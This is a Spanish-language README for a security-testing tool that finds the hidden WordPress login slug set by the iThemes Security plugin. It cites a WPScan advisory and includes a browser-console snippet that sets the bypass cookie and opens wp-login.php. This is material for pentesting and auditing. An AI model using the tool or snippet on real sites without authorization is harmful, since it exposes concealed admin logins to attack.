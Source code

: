 # 🔓 Bypass_iThemesSecurity

Herramienta de detección y explotación de slugs ocultos generados por el plugin **iThemes Security** en instalaciones WordPress mal configuradas o desactualizadas.

> ⚠️ Basada en la vulnerabilidad documentada en:  
> [WPScan Advisory - iThemes Security <= 8.1.2](https://wpscan.com/vulnerability/42fdb534-3aef-4ed7-94a8-4cfe8ff977e1)

---

## 🧠 ¿Qué hace esta herramienta?

`Bypass_iThemesSecurity` automatiza la detección de tokens (`slugs`) ocultos usados por iThemes Security para mover el acceso al panel de login de WordPress (`wp-login.php`). Si el sitio está desactualizado o mal configurado, esta herramienta puede encontrar ese slug y permitir el **bypass completo** del ocultamiento.

---

## 🎯 Casos de uso

- Red Teams y Pentesters que necesiten evadir plugins de ocultamiento de login.
- Auditores de seguridad en entornos WordPress.
- Investigadores de seguridad interesados en fingerprinting de instalaciones WordPress.
- Cazadores de bugs que validan configuraciones erróneas.

---

## 🚀 Requisitos

- Python 3.7+
- Librerías:
  - `requests`
  - `beautifulsoup4`
  - `rich`
  - `pyfiglet`

## 📥 Instalación

### 1. Clonar el repositorio

```bash
git clone https://github.com/AndreewNR/Bypass_iThemesSecurity.git
cd Bypass_iThemesSecurity
```

### 2. Instalar dependencias

```bash
pip install -r requirements.txt
```

## ⚙️ Uso

Ejecuta la herramienta con:

```bash
python main.py
```

### 🧪 Ejemplo de uso

[+] Ingresa la URL objetivo (sin / al final): https://tudominio.com

🔍 Iniciando escaneo de slugs ocultos en: https://tudominio.com

🔄 Probando slug: 6bcbbd3fc2
🔄 Probando slug: loginadmin
🔄 Probando slug: abc123...

✅ ¡Bypass exitoso! Slug válido: loginadmin
🔗 Accede directamente: https://tudominio.com/wp-login.php

### 🍪 ¿Y si quieres probar el bypass manualmente?

Puedes simular el bypass en el navegador usando cookies. Si la herramienta detecta un slug válido y entrega cookies, puedes abrir la consola de tu navegador (F12) y ejecutar:
```bash
document.cookie = "itsec-hb-token=loginadmin";
window.location.href = "/wp-login.php";
```

### ⚠️ Descargo de responsabilidad
Esta herramienta es solo para fines educativos y auditorías autorizadas.
El uso no ético o en sistemas sin permiso explícito podría violar leyes locales.
`Autores y colaboradores no se hacen responsables del uso indebido de este software.`


